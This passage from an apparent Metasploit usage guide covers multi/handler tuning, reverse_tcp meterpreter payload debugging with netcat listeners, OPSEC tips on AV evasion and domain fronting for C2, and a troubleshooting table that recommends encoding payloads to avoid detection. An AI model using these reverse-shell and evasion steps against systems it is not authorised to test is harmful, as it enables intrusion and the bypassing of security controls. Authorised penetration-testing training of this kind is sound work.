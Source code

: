 ### Handler Optimization
```bash
# Persistent handler (doesn't exit after first session)
msf6 exploit(multi/handler) > set ExitOnSession false

# Auto-run post-exploitation modules
msf6 exploit(multi/handler) > set AutoRunScript post/windows/manage/migrate

# Enable payload staging encryption
msf6 exploit(multi/handler) > set EnableStageEncoding true
msf6 exploit(multi/handler) > set StageEncoder x86/shikata_ga_nai
```

### Debugging Failed Payloads
```bash
# Check payload requirements
msfvenom --payload-options -p windows/meterpreter/reverse_tcp

# Test connectivity
nc -lvnp {LPORT}  # On attacker machine
telnet {LHOST} {LPORT}  # From target machine

# Verify handler configuration
msf6 exploit(multi/handler) > show options
```

### OPSEC Considerations
1. **Avoid default ports** (4444, 4445)
2. **Use HTTPS payloads** for encrypted communication
3. **Consider payload signing** for Windows environments
4. **Test against target AV** before deployment
5. **Use staged payloads** for better evasion
6. **Implement domain fronting** for C2 traffic

---

## 🔍 Troubleshooting

### Common Issues and Solutions

| Issue | Cause | Solution |
|-------|-------|----------|
| Payload won't execute | AV detection | Use encoding/packing |
| No connection back | Firewall blocking | Try different ports |
| Handler not catching | Wrong payload type | Match handler to payload |
| Meterpreter crashes | Architecture mismatch | Use correct x86/x64 |
| Encoding fails | Bad characters | Specify `-b` parameter |
